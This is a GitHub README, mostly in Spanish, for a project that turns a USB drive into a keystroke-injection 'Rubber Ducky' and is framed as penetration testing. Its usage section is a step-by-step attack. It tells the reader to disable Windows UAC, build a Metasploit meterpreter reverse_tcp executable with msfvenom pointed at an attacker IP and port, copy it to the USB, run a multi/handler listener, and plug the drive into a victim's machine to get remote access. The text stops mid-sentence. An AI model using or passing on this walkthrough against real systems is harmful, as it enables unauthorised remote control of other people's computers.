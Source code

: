 # Rubber-Ducky-Simulation
In this project, we simulate a Rubber Ducky using a standard USB drive with a Python script and autorun functionality. This allows us to replicate its keystroke execution capabilities for automated penetration testing. The project emphasizes scripting skills and highlights the security risks of USB devices in cybersecurity.

## Instrucciones de Uso

Primero, descargaremos los archivos del repositorio y los copiaremos en cualquier USB. Luego, editaremos los archivos según nuestras necesidades, ajustando los tiempos que consideremos adecuados para la ejecución de la secuencia de desactivación del archivo `teclas.py`. 

Es importante tener en cuenta que debemos desactivar el Control de Cuentas de Usuario (UAC) en el sistema Windows de la siguiente manera:

1. Abrir el **Panel de control**.
2. Ir a **Cuentas de usuario**.
3. Seleccionar **Cambiar configuración de Control de cuentas de usuario**.
4. Mover el control deslizante a **Nunca notificar**.
5. Hacer clic en **Aceptar** y reiniciar el sistema si es necesario.

Esta configuración permitirá que el archivo `teclas.py` se ejecute sin restricciones de permisos.

<div align="center">
  <img src="https://github.com/user-attachments/assets/59126bcb-c0c4-48ff-81c1-20f607277a46" alt="Description of image">
</div>

## Instrucciones de Uso (Continuación)

Una vez desactivadas las restricciones de UAC y editado el código con los tiempos a nuestra conveniencia, procederemos a convertir el código en un ejecutable utilizando **PyInstaller**. 

Luego, en nuestra máquina atacante, crearemos el payload con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IPAtacante LPORT=PuertoAtacante -f exe -o shell.exe
```
Una vez generado, copiaremos el payload en la USB

Si deseamos que la USB se ejecute automáticamente en el sistema de la víctima, es necesario que la máquina tenga instalado apo_usb_autorun debido a las restricciones de windows. Si no es así, tendremos que hacer doble clic manualmente en el archivo ejecutable teclas.exe.

Después de esto, nos pondremos en escucha en nuestra IP y puerto asignados en el payload con el siguiente comando:

```bash
msfconsole -e use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST IPAtacante
set LPORT PuertoAtacante
run
```
Finalmente, insertaremos la USB en la máquina de la víctima y esperaremos el acceso remoto.


Recuerda reemplazar `IPAtacante` y `PuertoAtacante` con los valores correspondientes. También 

<img src="https://user-images.githubusercontent.com/73097560/115834477-dbab4500-a447-11eb-908a-139a6edaec5c.gif">


Author: xrl3y
